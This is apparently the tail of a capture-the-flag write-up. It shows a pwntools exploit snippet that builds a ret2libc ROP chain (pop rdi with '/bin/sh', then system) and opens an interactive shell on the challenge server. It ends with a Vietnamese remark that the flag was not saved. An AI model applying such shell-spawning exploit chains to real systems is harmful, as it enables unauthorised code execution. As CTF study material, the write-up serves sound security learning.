 ```python

assert(len(payload) == 0x4770)
assert(b'\x20' not in payload)
assert(b'\n' not in payload)

edit(0, payload)

rop = ROP(libc)

pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
ret = rop.find_gadget(['ret']).address

payload = b'1' + b'\x00' * 7 + p64(0) * 4 + p64(ret)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.symbols['system'])
s.sendlineafter(b'Your choice : ', payload)

s.interactive()
```

Flag: Bài này mình quên lưu lại flag rồi, và lúc mình viết writeup này thì server cũng đóng mất tiêu :))

